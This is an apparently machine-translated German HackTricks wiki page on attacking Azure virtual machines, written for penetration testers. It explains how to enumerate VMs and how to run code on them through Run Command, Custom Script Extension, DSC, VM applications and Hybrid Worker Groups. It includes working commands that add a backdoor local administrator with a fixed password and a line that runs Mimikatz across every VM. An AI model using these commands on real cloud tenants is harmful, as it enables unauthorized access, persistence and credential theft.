 # Az - Virtuelle Maschinen & Netzwerk

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure-virtuelle Maschinen sind eine von mehreren Arten von [on-demand, skalierbaren Rechenressourcen](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), die Azure anbietet. Typischerweise wählst du eine virtuelle Maschine, wenn du mehr Kontrolle über die Rechenumgebung benötigst, als die anderen Optionen bieten. Dieser Artikel gibt dir Informationen darüber, was du beachten solltest, bevor du eine virtuelle Maschine erstellst, wie du sie erstellst und wie du sie verwaltest.

## Azure Netzwerk Informationen

Azure-Netzwerke enthalten **verschiedene Entitäten und Möglichkeiten, sie zu konfigurieren.** Du findest eine kurze **Beschreibung,** **Beispiele** und **Aufzählungs**befehle der verschiedenen Azure-Netzwerkinhalte in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bietet eine sichere, vollständig verwaltete RDP (Remote Desktop Protocol) und SSH (Secure Shell) Zugangs-Lösung über SSL über das Azure-Portal. Es ist in ein Azure Virtual Network integriert, was RDP- und SSH-Konnektivität zu VMs über private IPs ermöglicht und die Notwendigkeit öffentlicher IPs vermeidet. Dies macht es zu einer sichereren, bequemeren Alternative zu traditionellen Methoden, die öffentliche IP-Zuweisungen und NSG-Regelkonfigurationen für den VM-Zugriff beinhalten. Entwickler und IT-Personal können sicher auf VMs über das Azure-Portal mit ihren Webbrowsern zugreifen, was den Prozess für Entwicklungs- und Testumgebungen vereinfacht.

Um alle Azure Bastion-Hosts in deinem Abonnement aufzulisten, kannst du den folgenden Befehl verwenden:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Aufzählung
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Befehle in einer VM ausführen**

### **AAD-Anmeldung in der VM**

Es ist möglich, Benutzern, die über AzureAD authentifiziert sind, den Zugriff zu ermöglichen. Zum Beispiel beim Versuch, auf eine **Linux-VM** zuzugreifen: `ssh username@azure-corp.com@1.1.1.1` (es ist wichtig, die **E-Mail** mit dem verwendeten azurecorp beim Anmeldeversuch zu verwenden), könnte ein Fehler auftreten wie:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Befolgen Sie einfach **diese Anweisungen**, indem Sie zu [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) gehen und den Code angeben, verwenden Sie die E-Mail und das Passwort als Anmeldeinformationen, und Sie können sich über SSH verbinden (wenn dieser Benutzer über ausreichende Berechtigungen verfügt: `Virtual Machine Administrator Login` oder `Virtual Machine User Login` Rolle).

### **Befehl ausführen**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Führen Sie die benutzerdefinierte Skripterweiterung aus**

Azure-virtuelle Maschinen (VM) Erweiterungen sind **kleine Anwendungen**, die Konfigurations- und Automatisierungs-**aufgaben** nach der Bereitstellung auf **Azure VMs** bereitstellen. Wenn beispielsweise eine virtuelle Maschine eine Softwareinstallation, einen Virenschutz oder die Möglichkeit benötigt, ein Skript darin auszuführen, können Sie eine VM-Erweiterung verwenden.

Daher, wenn Sie Zugriff haben, um es zu schreiben, können Sie beliebigen Code ausführen:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ist ein PowerShell-Tool, das Ansible ähnlich ist und zur Einrichtung eines Hosts durch Code verwendet wird. DSC integriert sich mit Azure und ermöglicht das Hochladen spezifischer Konfigurationsdateien. Diese Dateien müssen einer strengen Syntax entsprechen. Bemerkenswert ist, dass die DSC-Erweiterung in Azure Befehle aus Dateien ausführen kann, die bestimmten Formatierungskriterien entsprechen, selbst wenn die Syntax nicht den DSC-Standards entspricht, wie in der bereitgestellten Abbildung gezeigt.

Die Ausführung dieser Befehle wird durch die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) Funktion in Az PowerShell erleichtert. Die Anforderungen umfassen eine **.PS1**-Datei mit einer definierten Funktion, und die Datei muss in eine **.zip**-Datei gepackt werden. Auch wenn die Syntax möglicherweise nicht korrekt für DSC ist, wird der Code dennoch ausgeführt. Die Erweiterung wird jedoch den Ausführungsstatus als "Fehler" markieren, und keine Ausgabe des Befehls wird sichtbar sein, da der Status durch die Fehlermeldung überschrieben wird.

### VM Application Definitions

VM Application Definitions ermöglichen die wiederholbare Bereitstellung von versionierten Anwendungen auf einer Azure-VM. Diese Ressource unterstützt die Bereitstellung und Aktualisierung von Anwendungen über VMs hinweg. Um dies einzurichten, sind mehrere Schritte erforderlich, die Befehle wie **`New-AzGalleryApplication`** und **`New-AzGalleryApplicationVersion`** in Az PowerShell beinhalten.

Die Ausführung von Anwendungen oder Befehlen über diese Methode erfolgt über die **"VMAppExtension"**, die automatisch installiert wird, wenn eine Anwendung auf eine VM angewendet wird. Die Erweiterung ruft die Datei von der angegebenen URI ab und benennt sie genau wie die Anwendung, ohne eine Erweiterung. Um die Datei korrekt auszuführen, muss das Feld "ManageActions" im REST-API-Aufruf so konfiguriert werden, dass die Datei mit der entsprechenden Erweiterung umbenannt wird. Die Einrichtung dieser Methode wird, sobald sie abgeschlossen ist, der in der bereitgestellten Abbildung gezeigten Struktur ähneln.

Diese Methode der Ausführung ist jedoch relativ langsam und benötigt etwa 3-4 Minuten, um eine Anwendung oder einen Befehl auszuführen. Die mit diesem Prozess verbundenen Dateien werden in spezifischen Verzeichnissen gespeichert (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` für die Anwendungsdatei und `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` für den Ausführungsstatus).

Beide Techniken bieten einzigartige Möglichkeiten zur Ausführung von Befehlen und zur Bereitstellung von Anwendungen in Azure-Umgebungen, jede mit ihren eigenen Anforderungen, Schritten und Überlegungen.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sind eine Funktion in Azure, die es ermöglicht, Runbooks, die in einem Automatisierungskonto konfiguriert sind, auf einer Azure-VM (VM) auszuführen, die Teil der vorgesehenen HWG ist. Diese Ausführung wird durch eine auf der VM installierte Erweiterung erleichtert, die den Runbook-Code auf die VM bereitstellt. Ein wesentlicher Aspekt dieses Prozesses ist, dass die tatsächlichen Anmeldeinformationen bei der Ausführung keine Rolle spielen, da der Code mit erhöhten Rechten, speziell als **SYSTEM** oder root, ausgeführt wird, wie in der bereitgestellten Abbildung veranschaulicht.

Ein wichtiger Punkt für diejenigen, die Windows 10 VMs nutzen, ist die Notwendigkeit, die PowerShell-Version für das Runbook anzugeben. Sie sollte so eingestellt werden, dass sie als PowerShell Version 5.1 und nicht 7.1 ausgeführt wird. Diese Anforderung ergibt sich aus der Tatsache, dass PowerShell 7.1 standardmäßig nicht auf diesen VMs installiert ist, was zu einem Fehler bei der Skriptausführung führt, wenn Version 7.1 angegeben wird.

Dieses Feature von Azure bietet eine robuste Methode zur Automatisierung und Verwaltung von Aufgaben in hybriden Umgebungen und ermöglicht eine zentrale Verwaltung und Ausführung von Aufgaben auf Azure-VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
